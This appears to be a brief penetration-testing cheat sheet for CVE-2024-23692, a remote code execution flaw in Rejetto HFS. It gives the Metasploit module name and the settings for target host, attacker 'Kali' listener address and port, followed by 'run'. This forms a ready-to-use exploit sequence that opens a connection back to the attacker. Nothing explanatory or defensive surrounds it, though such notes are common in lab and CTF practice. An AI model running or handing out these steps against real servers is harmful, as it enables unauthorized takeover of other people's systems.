 # Rejetto HFS — CVE-2024-23692 (quick ref)

use windows/http/rejetto_hfs_rce_cve_2024_23692
set RHOSTS <TARGET>
set LHOST <KALI_IP>
set LPORT <LPORT>
run
